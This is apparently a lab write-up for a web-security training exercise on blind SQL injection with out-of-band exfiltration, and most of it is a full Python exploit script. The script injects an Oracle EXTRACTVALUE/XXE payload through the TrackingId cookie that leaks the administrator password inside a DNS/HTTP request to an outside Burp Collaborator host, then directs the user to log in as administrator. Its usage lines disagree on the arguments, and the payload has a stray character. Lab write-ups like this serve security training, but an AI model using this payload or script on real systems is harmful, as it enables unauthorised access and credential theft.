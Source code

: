 ```yaml
---
title: 'SQLi Lab 17'
description: 'Blind SQL injection to extract administrator password using Burp Collaborator'
---
```



## Blind SQL injection with out-of-band data exfiltration

<div style="text-align: justify;">
  This lab demonstrates exploiting a blind SQL injection (SQLi) vulnerability via a tracking cookie. The application executes the SQL query asynchronously, so the response does not contain query results. However, out-of-band (OOB) interactions with an external domain can be triggered to retrieve sensitive data.

  By modifying the `TrackingId` cookie and leveraging Burp Collaborator, I was able to extract the administrator's password from the `users` table. The asynchronous behavior requires polling Collaborator for DNS or HTTP interactions to view the exfiltrated data.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `TrackingId` cookie is vulnerable to blind SQL injection.
- Payloads use `UNION SELECT` and `EXTRACTVALUE` with an embedded XML/XXE structure to trigger OOB interactions.
- A Burp Collaborator subdomain is used to capture the exfiltrated administrator password.
- Polling the Collaborator tab shows DNS and HTTP interactions that reveal the password.
- Once obtained, the administrator password is used to log in to the application.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
#!/usr/bin/env python3
"""
oob_sqli_exfil.py

Exploit Blind SQL Injection with Out-of-Band (OOB) data exfiltration.
This leaks the administrator password in a DNS/HTTP request to Burp Collaborator.

Usage:
    python oob_sqli_exfil.py <url> <collaborator-subdomain>

Example:
    python oob_sqli_exfil.py https://target.lab pa3gw5qad0jn77hef0jikr54vv1mpdd2.oastify.com
"""

import sys
import requests
import urllib3

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: Proxy through Burp (set {} if not needed)
proxies = {"http": "http://127.0.0.1:8080",
           "https": "http://127.0.0.1:8080"}


def grab_initial_cookies(url: str):
    """Fetch initial cookies from target lab."""
    r = requests.get(url, verify=False, proxies=proxies, timeout=15)
    tracking_id = r.cookies.get("TrackingId")
    session_cookie = r.cookies.get("session")

    if not tracking_id or not session_cookie:
        print("[-] Failed to grab TrackingId/session cookie.")
        sys.exit(1)

    return tracking_id, session_cookie


def build_payload(collab_subdomain: str) -> str:
    """
    Build SQLi payload to exfiltrate administrator password
    into a DNS/HTTP request to Burp Collaborator.
    """
    return (
        f"'||(SELECT EXTRACTVALUE(xmltype('<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM \"http://'||(select password from users where username = 'administrator')||'.f{collab_subdomain}/\"> %25remote%3b]>'),'/l') FROM dual)-- -"
    )


def send_payload(url: str, session_cookie: str, payload: str):
    """Send malicious TrackingId cookie with OOB exfil payload."""
    cookies = {
        "TrackingId": payload,
        "session": session_cookie
    }
    print("[*] Sending payload...")
    try:
        r = requests.get(url, cookies=cookies, verify=False, proxies=proxies, timeout=10)
        print(f"[+] HTTP {r.status_code} received. Now check your Collaborator tab.")
    except requests.exceptions.RequestException as e:
        print(f"[!] Request failed: {e}")


def main():
    if len(sys.argv) != 3:
        print("Usage: python oob_sqli_exfil.py <url> <collaborator-subdomain>")
        sys.exit(1)

    url = sys.argv[1].rstrip("/")
    collab = sys.argv[2].rstrip("/")

    print(f"[*] Target: {url}")
    print(f"[*] Collaborator: {collab}")

    tracking_id, session_cookie = grab_initial_cookies(url)
    print(f"[*] Got TrackingId: {tracking_id}")
    print(f"[*] Got session: {session_cookie}")

    payload = build_payload(collab)
    send_payload(url, session_cookie, payload)

    print("\n[*] Payload sent!")
    print("    → Open Burp → Collaborator tab → Poll now.")
    print("    → Look for a DNS/HTTP request with the password in the subdomain.")
    print("    → Use that password to log in as administrator ✅.")


if __name__ == "__main__":
    main()
```